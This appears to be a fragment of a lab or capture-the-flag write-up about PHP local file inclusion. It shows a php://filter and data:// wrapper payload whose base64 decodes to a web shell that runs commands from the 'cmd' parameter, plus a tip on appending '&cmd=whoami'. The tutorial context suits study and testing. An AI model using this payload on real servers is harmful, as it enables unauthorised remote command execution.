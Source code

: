 <figure><img src="../../.gitbook/assets/image (1081).png" alt=""><figcaption></figcaption></figure>



Note: It is important to not include the \&cmd=whoami in the input field since it will be encoded when the form is submitted. Once encoded, the backend will treat it as part of the base64 code, giving you an invalid byte sequence error.

```
php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7IGVjaG8gJ1NoZWxsIGRvbmUhJzsgPz4=
```

<figure><img src="../../.gitbook/assets/image (1082).png" alt=""><figcaption></figcaption></figure>

aaa






















